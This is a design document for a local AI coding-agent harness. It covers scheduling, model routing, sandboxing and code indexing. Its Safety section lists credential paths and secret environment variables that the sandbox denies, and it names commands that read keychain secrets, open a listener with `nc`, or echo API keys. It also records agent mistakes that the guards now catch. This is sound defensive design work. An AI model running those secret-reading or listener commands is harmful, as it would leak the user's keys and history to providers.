- Memory-aware admission: a turn on the local tier and a gate run do not overlap when free memory is below the admission headroom (with qwen3:8b loaded ~31% is free, enough for a Go suite, while gemma4:12b leaves 14-18% and is not, so the default sits between them at 25%). The scheduler is one per daemon, so the headroom is the built-in default for the whole laptop and a project's `admissionHeadroom` in `.wavez.pkl` does not reach it; per-project headroom would need the scheduler to answer per root, which is open. A turn pinned hosted skips admission because it occupies no local memory. A machine whose memory cannot be read admits everything rather than stalling on a number it does not have. A held thread's step says what it waits for and how much is free, since a thread that is neither working nor waiting on a lock otherwise reads as merely slow. Long-running services (compose stacks) stop when idle
- Leases are taken where a thread is about to write (the edit and write tools, and shell when the guard recognizes a writing command), never at thread creation, because a thread's directory set does not say where it writes. The key is the directory holding the write target, relative to the project. Overlap covers ancestor and descendant subtrees, one thread may hold overlapping subtrees at once, and a wait names its holder in the step column (`waiting lock internal/vcs ← add-jj-backend`). Releasing downgrades to committed rather than dropping the lease, so the subtree keeps its rebase-risk signal until the TTL (`leaseTtlMinutes`) runs out, and an expired lease blocks nobody, which is the one cleanup nothing else performs for a thread that died mid-write
- Contention rules come from leases plus a dependency map, so two threads planning changes to the same feature serialize
- Leases fence the writes and leave the tree and the verifier shared, which is what actually cost two parallel dogfood lanes their work (`_ai_/bench/dogfood-2026-08-31-tui.md`). A run's change set is its own (`agent.run.changes` is appended from that run's tool results), and the gates still execute against the whole working copy: `lint` runs the linter over the packages holding the changed files and `gotest` runs `go test` over selected packages, so another lane's in-flight edit reaches the report. The second lane abandoned a correct change set over the first lane's failing test, in the two packages it had been told not to touch, and the third spent all 3 of its turns fixing the first two lanes' lint without once opening the package it was given. A lease would have prevented neither, since no two lanes wrote the same subtree
- One tree stays, and what a gate reports is scoped instead. All three halves ship. A failing gate whose output names no file the run changed and no package a changed file reaches (`gate.Attributable`, over the same import graph importer-level selection already builds) stops the run as `StopTreeState` for the scheduler rather than costing the model a turn on work it cannot have caused, and a run that broke a caller by deleting the function still gets that failure because the graph says the caller is reachable. A lint finding on a line the run did not write never fails a gate, since a run stopped over somebody else's line is the failure this exists to end: it rides along on a report that already failed, named as another writer's, and only when `lease.Manager.OtherActiveHolders` says nobody else is writing, because a finding a live lane is mid-edit on will have moved before the run could act on it. Undo picks its mechanism the same way, taking the whole operation restore alone in the tree and degrading to `jj restore` over the thread's own recorded paths while another lane writes. The gate log keeps everything either way, so the scoping is what reaches a turn and not what is recorded
- Threads can spawn sub-threads (one level) and fork, the fork inheriting the parent's change set rather than its history
- A thread is its event log under `.wavez/threads/`, and a project loading in a daemon reopens every log there, so Home shows the same list after a restart as before it. The log carries the prompt, states, and changes and not the directory set, model override, parent, or cycle, so a reopened thread gets the project root and automatic routing. One interrupted mid-turn reopens idle, because the turn died with the process, and a log that fails to decode is skipped with a warning rather than blocking the project
- The schedule view shows one lane per thread with the active routine's DAG inline. A lane is a fixed number of cells over the last five minutes of the thread's state history, so it is a shape to scan rather than a chart, and lanes drop their oldest cells first as the frame narrows

### Compaction (M3, minimal version in M1)

- Deterministic first, and by shape before by size: `internal/reduce` dispatches tool output to a reducer that keeps what names a failure (a `go test` run keeps the assertion, the failing test, and the verdicts; a build keeps each diagnostic once), then the first-and-last-lines rule caps whatever survives. Also drop tool results older than N turns, downscale images, and replace repeated file reads with a hash reference
- Trimmed output has a way back. The `[N lines omitted]` marker names a file id under the run's session directory holding the full output, and the existing `read` tool fetches it by that id, so a model that needs the middle reads it once instead of re-running the command, and no new tool enters the prefix
- Append-only. Earlier turns are never mutated, so the prompt-cache prefix survives. Trimming happens by writing shorter replacements forward. Measured: a mid-context edit costs 5-7x an append on the local runtime
- Model summarization only for the residue, using the small local model, with the user able to edit the summary
- Session ledger: one line per thread end, structural facts extracted from logs, a model handoff note only where structure cannot capture it
- Context manifest tags every item entering a prompt with source, id, and reason so "why did it write this" is a lookup, not a question

### Model routing (M1)

- Three tiers, named for the job rather than the place: `fast` for tool calling and mechanical edits, `balanced` for the bulk of the work, `deep` for planning and for what the tier below could not finish. Each names a model and an endpoint in `.wavez.pkl`, so a machine decides which of them run on-box and which over the network, and the same project config reads correctly on a 16 GB laptop and a 24 GB one
- A turn starts on `balanced` unless something pins it, and every failure moves it up one tier, so a tier is never retried on itself and a pin is a floor rather than a cage. Nothing reaches `fast` or `deep` on its own: the router carries no task-shape signal, so those two are pinned per run (`-model`) or per thread (`m`, the palette) until one exists. The one size rule left is the fast tier's, since a request that would not fit its served window less reply room moves up before it runs and the network tiers are sized in hundreds of thousands of tokens
- On-box measurements from this laptop: qwen3:8b decodes at 18 tok/s, made 3/3 well-formed and correct tool calls, and leaves ~5 GB free. gemma4:12b decodes at 14 tok/s, hallucinated a tool name once, and thrashes to 2 tok/s under memory pressure. qwen3:8b is the fast tier's model for edits, compaction, and line questions
- Runtime: `llama-server` (llama.cpp) through its OpenAI-compatible endpoint, with `--spec-type ngram-simple`, `--cache-reuse`, `--jinja`, and `json_schema` constrained output. Ollama stays for pulling and listing models only. Measured on the same GGUF: load and decode are identical (Ollama runs llama-server underneath), n-gram speculation gives 4.3x decode on a copy-heavy edit (85 vs 20 tok/s, 88% draft acceptance, no draft model, no extra memory), and Ollama exposes neither flag
- Prefix cache reuse is real on both: appending a suffix to a cached 3k-token prefix costs ~0.2 s of prompt eval, editing the middle costs 5-7x more. That is the measured reason compaction appends and never mutates. Served context is a tuned number (8k in the spike, `contextWindow` in `.wavez.pkl` and per model on the models screen), since raising it multiplies KV memory on 16 GB, and the router keeps reply room under it rather than routing a request that fills it
- Only one model fits at a time. Two servers on the same 6 GB model OOM'd Metal, which is the concrete case for the scheduler's memory-aware admission
- The local server has few KV slots and many threads. `llama-server` runs with `-np N` where N is what the served window's KV memory leaves under the admission headroom (1 today), and the scheduler serializes local turns beyond N. Measured in `_ai_/demos/kv-slots/`: llama-server's host-RAM prompt cache already keeps an idle thread's prefix, so a switch between two 3.6k prefixes under `-np 1` costs a quarter of a second, the same as a second slot or a disk restore, and what a fleet on the local tier costs is the RAM that cache takes, which the admission headroom has to see. `--cache-ram` ships at a fixed 512 MiB (`runtime.DefaultCacheRAMMiB`), where llama-server's own default is 8 GiB the scheduler never sees
- Holes from intent edits route by size: bodies under a few lines on the fast tier with retry against gates, judgment-sized holes above it. Either way the hosted model writes tens of tokens, not files
- Explicit override per turn. Cost and token counters per thread in the header
- Any tier can live on another machine. A tier's `baseURL` in `.wavez.pkl` points it at a `llama-server` elsewhere (a 24 GB M4 Pro on the same tailnet fits Qwen3-Coder-30B-A3B at 4-bit, which this laptop's disk and RAM rule out), the tier's `keyCommand` supplies its bearer token, and Wavez then never starts, stops, or probes a server of its own for that tier, so a remote endpoint that is down fails the turn instead of loading a 6 GB model here. The endpoint is bound to loopback on the serving machine and carried by `tailscale serve`, never `0.0.0.0` on the WiFi. Memory-aware admission and the diagnostics memory row still describe this laptop; the remote machine's headroom is unknown to the daemon
- The key comes from a command in `.wavez.pkl` whose stdout is the key, after a git credential helper, so it never enters the environment, the repo, or the process table. `hostedKeyCommand` covers every tier that dials a network endpoint, a tier's own `keyCommand` overrides it, and `OPENROUTER_API_KEY` stays as a fallback. A project whose tiers sit on more than one provider sets `keyCommand` per tier instead, since one command returns one provider's key and a shared fallback would hand a tier's key to whichever endpoint it dialed
- Which provider-specific keys a request carries follows the endpoint's host: `openrouter.ai` takes `reasoning` and the data-collection denial, `api.z.ai` and `open.bigmodel.cn` take `thinking` with a string type rather than a boolean, and every other host is a llama-server taking `chat_template_kwargs` and `repeat_penalty`. A URL that does not parse reads as OpenRouter, so a typo cannot quietly drop the denial. Adding a fourth provider means adding a `Dialect` rather than widening this guess
- The network tiers ran `qwen/qwen3-coder-30b-a3b-instruct` through OpenRouter before the z.ai coding plan replaced it, and the measurement that picked it stands. They were on `stealth/ox-alpha` while OpenRouter served it free, which was a mistake that hid itself: that model returns a completely empty completion for every request carrying `tools`, reproducible with a two-property schema and no harness, so every escalation reached a tier that could not call anything. The coder model was rejected first for the opposite failure and it is the recoverable one. Measured through OpenRouter in August 2026, holding wavez's own request fixed and varying only the model, ten samples each: the 30B A3B emitted a native tool call 3 times and wrote the call into the message body as `<function=…>` the rest, while `qwen/qwen3-coder`, `z-ai/glm-4.6`, `moonshotai/kimi-k2-0905`, and `openai/gpt-5-mini` each managed 10 of 10. Upstream tracks it as a chat-template weakness ([QwenLM/Qwen3-Coder#475](https://github.com/QwenLM/Qwen3-Coder/issues/475)), worst when a call follows prose. That markup is a well-formed call in the model's own dialect, so `parseToolCallText` reads it back rather than refusing the turn, which took `h6` from 0 of 3 runs to 2 of 3. `qwen3-30b-a3b-instruct-2507` never leaks and scores worse on both replay tasks, so the dialect is the cheaper problem. Any of the four above is a valid override, and `openai/gpt-5-mini` ($0.25 in, $2.00 out per M, where a 4k in and 400 out turn costs $0.0018) is the one to reach for if the recovery path stops holding
- Anthropic caching through OpenRouter requires the native Anthropic wire format and a pinned provider. The harness keeps a stable prefix (system, tools, ledger) and appends after it

### Local model management (M2)

Ollama already pulls and lists models, and `llama-server` already serves them, so this is a view and a set of deliberate actions over what is on disk rather than a package manager of its own.

- One screen listing every model Ollama has: name, tag, quant, size on disk, and the headroom it leaves against the 16 GB ceiling, so the cost of loading one is visible before the scheduler has to refuse it. The list is cut to the rows the terminal has, with a line saying how many are hidden, since a body longer than the frame pushes the key hints off the screen
- Update check per model against the registry, reported as "a newer tag exists", never applied on its own
- Install and uninstall on request, with the disk delta shown first. Wavez never removes a model it thinks is unused. Ollama serves other tools on this machine and Wavez cannot see their usage, so a prune would delete someone else's working set
- Runtime settings per model ship tuned for this laptop (served context, `--spec-type ngram-simple`, `--cache-reuse`, thread and batch counts measured on this laptop). Each is editable, and each edit shows the shipped default beside it with one key to restore it
- Total disk used by models sits in the diagnostics panel next to memory headroom, since both bound what the router may choose
- The screen is `M` from anywhere (also `models` in the palette). Every action goes through the daemon as its own command (`models`, `model_check`, `model_install`, `model_remove`, `model_settings`), so a phone client drives the same path later. Install and remove are two-step: the first request carries no `confirm` and answers with the disk delta as a note, and only a second request with `confirm` acts. A preview the registry refuses closes the confirmation rather than leaving an offer to act on a model that does not exist, and `y` does nothing until the delta is on screen, because a question that can be answered before it is asked is not a two-step
- The update check compares the sha256 of the registry manifest against the digest Ollama recorded when it pulled, which is the same identity, so "a newer tag exists" is a byte comparison and never a version guess. Measured: the registry's manifest size (config plus layers) is exactly the byte size Ollama reports on disk, so the delta shown before an install is exact. Ollama's `/api/tags` supplies name, digest, quant, parameter size, and bytes without parsing `ollama list`'s rounded columns
- Per-model settings persist beside the thread logs (`.wavez/models.json`) as a JSON map from model name to the fields the user set. A zero field means the shipped default applies, which is what lets the pane render the default beside each value and restore it with `0`. Threads and batch ship with no number: llama-server's own choice is the default until this laptop measures a better one, and the pane says so instead of showing a zero

### Safety (M1)

- These layers exist for the mistakes an agent actually makes and for the record afterward: a path that resolved somewhere unexpected, a command that reads worse than it looks, an edit to a file the run never opened. A determined attack carried in model output is not something rules like these stop, so each one has to earn its complexity against a real failure it catches. Where a mistake is unrecoverable (a write outside the project, a destructive command, a key leaving the machine) the check is hard and fails closed. Everywhere else the default is to let the work run, record what it did, and keep the record easy to read, since a rule elaborate enough to be unreadable costs more than the case it covers
- macOS Seatbelt profile per project (9 probes pass on macOS 26): writes scoped to the project root and a session temp dir, reads of `~/.ssh`, `~/.aws`, `~/.config/gh`, `~/.gnupg`, `~/.netrc`, `~/Library/Keychains`, `~/.claude`, and the shell histories denied, every environment variable whose name carries `KEY`, `TOKEN`, `SECRET`, `PASSWORD`, `CREDENTIAL`, or `AUTH` dropped before the command starts, `GOCACHE`, `GOLANGCI_LINT_CACHE`, `GOTMPDIR`, and `TMPDIR` redirected into the session dir, the module cache left where it is (a redirected one starts empty and the profile denies network, so every build with an external dependency failed on a DNS lookup; the profile already lets a build read the machine's cache and stops it writing there, and `GOPROXY=off` names a genuinely missing module as missing), `/dev/null` and `/dev/tty` allowed explicitly, every path realpath'd before it enters the profile (`/tmp` and `/var` are symlinks and `subpath` is a literal prefix match). Network is loopback-only in the profile, and a host allowlist lives in a local proxy on a loopback port because Seatbelt filters by IP and port, never hostname. `sandbox-exec` is deprecated but runs clean, and Claude Code and Codex depend on it too
- Destructive-command guard in front of shell, modeled on `dcg`, deterministic and fail-closed
- The guard decides from an allowlist first, so what it has never heard of is approval-worthy rather than allowed. A rule list can only refuse what someone thought to name, and a probe against the pure denylist ran `security find-generic-password -w -s wavez-openrouter` (this project's own key command), `nc -l 4444`, `osascript`, `launchctl load`, and `ssh-add -L` with no prompt. The list is what 177 logged shell calls actually invoked (`go` led 123 pipeline stages, `grep` 66, `head` 32, `echo` 31) plus the read-only neighbors of each, and a project widens it through `shellAllow`. Shell interpreters are off it on purpose: a command already runs under `sh -c`, so a nested one hands the classifier a string it never reads. A program named by a project-relative path is the one exception, because the shell tool classifies that script's contents and judging it by its filename would ask about the wrong thing. Being on the list does not override a rule that refuses the command
- Where the project is a colocated jj checkout, every git subcommand that is not purely a report is refused, and the refusal names jj. jj owns the working copy there and git owns the storage under it, so a git write moves the tree behind jj's back: the model has no way to know that and reaches for git because git is what it has seen. `internal/vcs` speaks only jj, and checkpoints, `-undo`, the fail-to-pass workspace, and the mutation workspace are all jj operations, so a run that writes through git has left the harness's own recovery path behind. The caller decides whether the project is colocated by looking for `.jj`, keeping the verdict a function of the guard's inputs. jj's own destructive commands (`abandon`, `restore`, `undo`, `op restore`, `workspace forget`) are approval-worthy rather than refused, because every one of them is in the operation log and recoverable
- Outside a colocated checkout, git subcommands that move the working copy are approval-worthy, and the two that destroy stashed work outright are refused. A dogfood run ran `git stash`, `git stash pop`, and `git worktree add .tmp-clean HEAD` inside the checkout it was working in, to test its change against a clean tree. The stash takes whatever the user is editing beside the run with it, the colocated jj working copy has no idea either happened, and the worktree stayed behind as 6.6 MB that broke `ls-lint`. A run has `-undo` and a checkpoint for the same purpose and needs none of them
- The guard judges what a command runs, not only what it says. `./setup.sh` describes nothing, so the shell tool resolves the project scripts a command would execute (by path, through an interpreter, or sourced) and classifies their contents too, taking the worst verdict. A script it cannot read is approval-worthy rather than allowed. Resolving *which* files a command runs stays a pure function of the command text; reading them is the tool's job, so the guard keeps deciding from text alone and stays reproducible
- A destructive target is expanded before it is judged. `$HOME`, `${HOME}`, `~`, `$TMPDIR`, and `$PWD` resolve against an `Env` the caller supplies, for `rm -rf` and for `chmod`/`chown` alike rather than one the guard reads, so a verdict stays a function of its inputs and the same command classifies the same way anywhere. A target the guard cannot reduce to one location (an unknown variable, a command substitution, a glob) is approval-worthy rather than allowed. `rm -rf $HOME/thing` was allowed outright before this: the unexpanded string joined onto the project root and read as inside it
- `write` gives a file that opens with a shebang the executable bit, so a run that writes a script can run it. Creating a file is not the dangerous step and is not gated; executing one is, and that check now reads the file. Measured on qwen3:8b before this: writing a script cost `./x.sh` exiting 126, a `chmod +x` through the permission gate, and a re-run, three tool calls to run one script, and the `chmod` prompt asked about the wrong moment
- Permission prompt only for what escapes both. `y`, `n`, `a` for the thread
- `a` (allow always) persists per project in `.wavez/`, so a daemon restart does not re-ask about `go test`. This widens what an unattended run may do after a restart to whatever was allowed once, which is the accepted tradeoff for one user on one laptop; the file is readable, and deleting it revokes everything at once
- Denying network is not what stops a key leaving the machine. Anything a command prints enters the thread's context and the next hosted turn ships that context to the provider, so the read denials and the environment scrub are the layer that matters and the network rule is not. `echo $OPENROUTER_API_KEY` reached the key the daemon falls back to through a command the guard allows by name, and `cat ~/.zsh_history` returned the history until the deny list grew; both now come back empty and `Operation not permitted`. What still reaches a command is the rest of the environment (126 variables) and every readable path outside the denied set
- Model output never becomes a policy input. Approval comes from the deterministic checker or the user
- The sandbox root is not a useful fence for edits. Root containment passes every write anywhere in the repo, and the edit tools do not go through the permission gate at all, which is how an unattended run rewrote files it had never opened while nominally creating one. A run therefore tracks what it read or created, and an edit to anything else is recorded and reported at the end of the run. `-strict-scope` refuses those edits instead, and stays off by default until there is evidence about what legitimate runs touch, because a fence that blocks real work gets turned off wholesale and then protects nothing

### VCS (M1 for checkpointing, M4 for the rest)

- One jj implementation, shelled out. No backend abstraction, because there is one backend
- Checkpoint and undo come free: jj snapshots the working copy on every command, so a turn's starting point is an operation id, and undoing a thread is `jj op restore` to that id. Wavez writes no snapshots of its own
- A run whose gates fail offers the restore rather than leaving broken files on disk, since a thread that ends red and edits anyway is the worst outcome available
- Agent-facing primitives: changed files since an operation id, diff for a set of files, a new change with a message derived from the thread's task, and restore to an operation id
- Colocated, so `.git` stays on disk for `gh`, CI, and git hooks. Every command wavez runs is a jj command
- Commit messages and PR bodies are produced by Wavez logic (like `ai-gh-pr.py`), not by the model composing a shell command
- Merge-forward stacking and review state that survives force-pushes are candidates, not commitments

### Mobile (M4)

The bar is Claude Code Mobile: open the phone, see what the agent needs, answer, and see the result. The gap is that Wavez runs on a laptop that has to be reachable and awake.

- Transport: Tailscale. `tailscale serve` fronts `wavezd`'s API and injects `Tailscale-User-Login`, so identity is the tailnet's. Funnel only if reachability off-tailnet is needed
- Client: PWA installed to the home screen. Views: threads list, one thread's transcript, approvals queue, diff with Ask-a-line, and a new-thread form. Same API and events as the TUI
- Push: ntfy.sh (or Web Push once the PWA is installed) for gate failures needing a decision, permission prompts, and thread completion. Batched, never per event
- Dispatch: starting a thread from the phone reuses `_ai_/notes/ai-dispatch-plan.md`'s signed-envelope design (HMAC, timestamp window, nonce set, kill-switch file)
- Limits to state up front: the Mac must stay awake (`caffeinate` while threads run), no offline mode, no terminal streaming (structured events only), and the phone cannot open the sandbox wider than the thread already had
- Alternatives considered: native SwiftUI app (later, if push action buttons prove insufficient), SSH via Wish (rejected on the 2026 CVEs), a hosted relay (rejected, one user does not need infrastructure)

### Recordings (M2 PTY, M5 browser)

The driving half of the PTY work is done and is a tool rather than a session:
`pty` runs one command on a pseudo-terminal, plays keystrokes into it, and
returns the screen. tmux through the shell was the obvious alternative and the
sandbox refuses it, because Seatbelt counts a unix socket in the network
family and its path filters do not match one, so the only grant that works
allows connecting to every socket on the machine. Owning the terminal turns
out to be the smaller change as well as the safer one: nothing outlives the
call, so no session lifetime has to be tracked.

What is left below is the recording half, which is a different job.

- Every PTY session and browser step the agent drives is logged as an action, selector or command, and result
- Replay runs the same steps and diffs the observed result. Steps carry confirm and falsify expectations from `_ai_/notes/code-in-the-loop-adrs.md` ADR 0006 rather than raw sleeps
- Promotion writes a test file from a per-language template. Discard is the default after the routine that produced it succeeds
- One `browser.Session` interface (click, read accessibility tree, screenshot, record) with two backends. Default is `go-rod` on a fresh profile, so an injected page finds no ambient credentials and deny-by-default mutation and the egress allowlist live in Wavez's process. `browser-control` (extension plus local WebSocket relay on the real profile) is a per-thread opt-in for tasks that need a logged-in session, never the default. Kitesurf runs only inside Workers and is out
- Vision calls only for visual judgments. Chrome 136+ refuses `--remote-debugging-port` on the default profile, so those two backends are the only routes

### Perception (the layer exists, nothing produces an image yet)

`llm.Message` carries `Parts`, an image goes as bytes and a media type so the
provider decides the encoding, and a tier declares `vision` because an
endpoint that cannot see refuses the whole request. The text path is
byte-identical on the wire, and a 64x64 PNG through this serialization to a
vision model on OpenRouter came back naming its colour.

`look` is the first consumer: a path and a question in, text out, the image
never entering the thread's history. That last part is the design rather than
a saving. History is append-only so a provider's cache prefix stays valid, so
an image placed in it is re-sent on every later turn for the rest of the run,
and `tool.Result` therefore carries no parts and needs none.

Two sources exist. A person takes screenshots already, which is what `look`
reads today, and `pty` runs a program on a pseudo-terminal and returns the
screen it drew, resolved from the byte stream by a terminal emulator rather
than scraped from it. A page in a browser is the third and is unbuilt.

Annotation is the direction nobody expected to be the useful one: rather than
the harness drawing a region on an image, `annotate` hands the image to the
person. It is `question` for pictures. A copy opens in whatever the platform
views images with, the run blocks on the same pending prompt a question uses,
and what comes back is the vision tier's reading of the saved file beside the
user's own words. A layout that is wrong is faster to point at than to
describe, and a mark drawn where it is meant carries what a coordinate read
off by hand does not. The copy is what gets edited, so answering never
modifies the project's own image, and a file that comes back byte for byte is
reported as unmarked rather than described as though it carried something.

These three still read as though nothing had been built, and each is a
consumer of the layer above rather than a separate problem:

- Recordings above says "Vision calls only for visual judgments"
- Mobile says "Image and screenshot input (M2)"
- The browser session interface lists `screenshot` beside `click` and `read
  accessibility tree`

The provider is the one already configured. `glm-5.3` on the z.ai coding
endpoint refuses an image with
`messages.content.type is invalid, allowed values: ['text']`, and `glm-4.6v`
on that same endpoint and the same key answers one (probed 2026-08-30). That
model is not in the endpoint's own `/models` listing, which reports the text
models only, so the name is the thing that works rather than the thing
advertised. On the general `/api/paas/v4` root the same model answers
"Insufficient balance", so the coding plan is what covers it.

So the tier that looks at a screenshot is not the tier that does the work,
and it is a fourth tier rather than a flag on the three: seeing is a
capability, `Tiers` maps a difficulty, and no routing decision can reach a
model a text turn must never go to. `config.Vision` is that tier, nil where a
project named none, and reasoning is off on it because the answer otherwise
arrives in `reasoning_content` with `content` empty.

`internal/reduce` already carries the other half of the problem in its own
notes, "downscale images", written for a payload that cannot yet exist. An
image is worth hundreds of times a line of text, so a screenshot that reaches
history and stays there is a compaction problem before it is a perception
one, and the rule that a visual judgment is asked once and answered in text
is what keeps it out. `Part.Data` is bytes for exactly that reason: a
downscale is a rewrite of the part, not a second fetch.

Two things a person does today that this does not describe. Driving an
interactive program under a PTY is written here only as recording and
promotion to a test, which is a different job from watching a program and
reacting to it, and it is the job [AGENTS.md](AGENTS.md) already prescribes
by hand with `tmux send-keys` and `capture-pane` for every TUI change.
Annotating a screenshot, drawing on the thing being discussed rather than
describing it in prose, appears nowhere at all, and it is the cheapest way to
make a visual judgment specific enough to act on.

### Neovim (M3)

Minimal on purpose. The daily loop is send, open, review, jump. Nothing else until those four are worn in.

- `wavez.nvim` talks to `wavezd` over the same unix-socket JSON API as the TUI. No PTY scraping, no ACP until Neovim has native ACP support (an ACP server mode is a thin adapter over the same API when that day comes)
- Send: visual selection or buffer plus cursor position into the current thread, or a new thread scoped to the file's repo
- Open: the thread view in a floating terminal, using the launcher pattern already in `~/.config/nvim/lua/kyleking/deps/terminal-integration.lua`
- Review: the thread's change set as nvim diff mode per file, touched files as a quickfix list, hunk accept or reject writes back through the API
- Ask-a-line from a hunk in diff mode is the same call the TUI makes
- Composing a prompt in Neovim rather than in the composer: `ctrl+x ctrl+e` hands the buffer to `$EDITOR` on a temp file and takes the result back, which needs no plugin and no server. `wavez lsp` then serves `textDocument/completion` over stdio for `@file` and `@symbol` from the code-intelligence store, so the same references the CLI resolves complete while typing. The Neovim side is one file in `lsp/` and one filetype rule, because 0.11's native `vim.lsp.completion` needs no completion plugin to drive it. Planned in [`_ai_/notes/nvim-prompt-editing.md`](_ai_/notes/nvim-prompt-editing.md)
- Existing plugins (sidekick, codecompanion, avante, claudecode.nvim) mostly wrap a CLI in a terminal buffer, so the socket-backed shape is already the smaller design

### Code intelligence (M1 core, M2 semantic, M3 cross-stack)

One store per project, several indexes, one query surface. Every subsystem that needs to know the code reads it: gates (test selection), Modifiers (symbol lookup), intent edits (siblings and conventions), similarity notes, context collection, the scheduler (contention by dependency), risk scoring, and the Neovim pickers.

**Store.** One SQLite file: `files` (path, content hash), `symbols` (kind, name, file, range, signature, doc), `edges` (calls, references, imports, contains, implements, plus `bridge` for contracts, each with a confidence), `fts` (FTS5 trigram over symbol names, paths, and file text), `vectors` (sqlite-vec, per symbol), `coverage` (file, range, test), `contracts` (routes, operations, tables), and later `history` (churn per symbol). One file to back up, one transaction domain, readable from Go without a server.

**Indexers, all incremental by content hash.** Freshness is checked on every query rather than driven by change events, because an edit made outside Wavez (an editor, `jj restore`, a formatter, a `copier update`) emits no event, and a timestamp or TTL carries the same staleness risk for the same reason: neither observes the tree. Re-checking is affordable because the walk is asymmetric. Measured on this repo (359 claimed files, 2345 symbols): 782 ms cold, 18 ms to confirm an unchanged tree, and an unchanged tree issues no write statements at all. The cold pass runs in the background at startup so no query pays it.

- Symbols and text: tree-sitter through the Go bindings, reparse only changed files, FTS rows per symbol and file
- Wavez owns codegraph's index the way it owns its own: the background pass builds one where the project has none and adds `.codegraph/` to the project's `.gitignore`, so nobody has to know the adapter exists. That is the one call in the store that writes into the repository being indexed, and it stays on the background path because a query cannot afford the build. A query that arrives mid-build says so rather than blocking on it
- Graph edges: `codegraph` as an adapter in M1 (763 ms to index a 10k LOC Go repo, call and reference edges across 20 languages, rows copied into `edges`), because writing a resolver per language is the expensive part. Its cross-language linking is by name only (its issue #765), so bridge edges come from the cross-stack detectors, not from it. An own resolver on tree-sitter (import table plus local scope) replaces it per language only where its edges prove wrong. SCIP indexers are the escalation for compiler-grade resolution if ever needed
- Coverage: the per-test loop and coverage.py contexts from the Gates section
- Vectors (M2): `qwen3-embedding:0.6b` through Ollama (639 MB, fits beside the 8B generator), one chunk per tree-sitter symbol so signature, doc, and body stay together, re-embed only symbols whose hash changed. Brute force is fine into the tens of thousands of vectors, sqlite-vec after that

**Query surface.** One `search` tool with a `mode` (fuzzy, semantic, graph, hybrid) and one `context` call that returns a ranked bundle for the model's first turn: a repo map (PageRank over the symbol graph, Aider style, under 1k tokens by default), the touched symbols with their callers and callees one hop out, and the tests that cover them. A small model plans better against one tool with a mode than four tools it has to choose between, and it cannot afford five search turns to recover from a bad first retrieval. An empty result says which kind it is: a query that missed names the query and the number of files searched, while a tree the index covers no files of says so and points at `rg` and `read`. Reporting both as `no results` told a model to narrow a query that could not have matched anything, and it spent four turns retrying. Fuzzy terms are joined with OR rather than AND for the same reason: a query naming five symbols matched no single document, and the model read `no matches across 473 indexed files` as an answer about the code and used shell grep for the rest of the run (13 of its 19 shell calls). bm25 still ranks a document matching every term first. A result set says how many rows matched in full, because a model that cannot tell "these are all of them" from "these are the first twenty" reaches for grep: one run spent 44 of its 63 tool calls in the shell, most of them `grep -rn … | head -30`, establishing what a count would have said. A file-level hit carries the lines that matched, up to five, because a hit that names a file and not a place in it leaves the model to find the place: it searched for `statsReport`, got `file cmd/wavez/main.go` back with no location, and ran `grep -rn` for it anyway.

**Roles by index.** Fuzzy and graph are primary retrieval, since agentic grep-and-read plus graph traversal is competitive with embedding RAG in 2026 measurements and cheaper on a small context. Semantic search is for what lexical cannot do: "find code like this", near-miss duplicates, docs and comments, and natural-language questions from Neovim. A local cross-encoder reranker is deferred until hybrid results are measurably worse than they should be.

**Similarity ("squinting", M2).** pylint and jscpd catch type-1 and type-2 clones. Wavez looks for near misses with signals the store already has and surfaces "possibly similar to `pkg.Foo`" only when two independent signals agree: normalized token fingerprint (identifiers and literals abstracted, winnowed or MinHashed, after MOSS and SourcererCC), structural vector per function (node-type counts, depth, branches, after Deckard), callee-set overlap from the call edges (catches zero-token-overlap duplicates), nesting-depth sequence, embedding neighbours, and coverage overlap as corroboration. Advisory to the model and a row in the thread, never an auto-refactor. `dupl` (Go) and jscpd stay as exact-clone gates.

**Neovim.** [codanna.nvim](https://github.com/KyleKing/codanna.nvim) already gives semantic search, symbols, callers, and impact pickers against Codanna's index. `wavez.nvim` reuses that picker layer (Telescope, mini.pick, snacks) pointed at the Wavez store, so one set of keymaps works whether the index is Codanna's or Wavez's. Codanna itself stays a reference and an alternative indexer, not a dependency.

**Not chosen.** Zoekt (Go trigram search) unless regex and boolean queries over a large repo become the need, since FTS5 trigram covers a 10k-500k LOC repo. universal-ctags (GPL-2.0, symbols only). Standing language servers as the store (Serena's shape) because N servers are too heavy for an always-on daemon on 16 GB, though LSP stays the Modifiers' execution engine. Sliding-window chunking, since AST chunks keep a symbol whole. A vector database process of any kind.

### Cross-stack graph (M3)

The store has to cut across a polyglot monorepo, so a change to a Python or Go route selects the TypeScript code and tests that depend on it and back. Nothing off the shelf does this reliably: `codegraph` links across languages by name only (its issue #765), SCIP crosses only through generated code, Nx and Bazel stop at the package.

- Contract nodes as first-class rows: HTTP route (method plus normalized path template), GraphQL operation and type, gRPC service and message, DB table and migration, env var, feature flag
- `bridge` edges distinct from `calls` and `references`, each with a confidence tier: generated-client call (`operationId`, protobuf symbol, tRPC procedure) is exact, framework detector (FastAPI and Django decorators, Go `chi`/`gin`/`net/http` registration, Express and Hono routes) is high, normalized string match on a `fetch`/`axios`/`ky` call site is low
- Path templates normalize to one param AST before matching, so `/users/{id}`, `/users/${id}`, and `/users/:id` are one route
- Detectors ship in the order of the user's stack: FastAPI and Django, Go routers, TS `fetch` and generated OpenAPI clients (`openapi-typescript`, `orval`, `oapi-codegen`), then GraphQL and protobuf
- Route-to-test edges from E2E: run Playwright with network logging (HAR) and record which routes each test hit, the same shape as line-to-test coverage. That is the only ground-truth crossing of the seam
- Selection across the seam uses bridge edges above a confidence threshold, then falls back to package level. Whole-program cross-language type resolution (Kythe, Glean) is out of scope

### Reachability (M1)

Five subsystems shipped in this repo complete, tested, and never called: the llama-server supervisor, deterministic compaction, the code-intelligence context bundle, the checkpoint restore, and the change-triggered gate runner. A sixth, the coverage map, was found the same way. That is a pattern rather than a run of bad luck, and it has three causes that compound:

- Everything lives under `internal/`, so every symbol there is exported API as far as the compiler and staticcheck's `unused` are concerned. `unused` will not flag an exported identifier, and under `internal/` there is no outside caller for it to be exported *to*
- A test counts as a use, so an orphan with good tests looks alive. The better the spike, the better it hides
- The composition root constructs a thing and stores it on `App`, which is a use. The orphan then sits one hop from `main` and never runs

Reachability from `main`, ignoring tests, is the check that catches all three, and none of the linters already in CI answer it. `wavez -deadcode` shells out to `golang.org/x/tools/cmd/deadcode` and splits its findings against a `deadcodeAllow` list of `package.Function` globs, because the analyzer's question ("does main reach this") and the useful question ("did someone mean this to be reachable") are not the same: functional options and test seams are unreachable by design, and default to allowed.

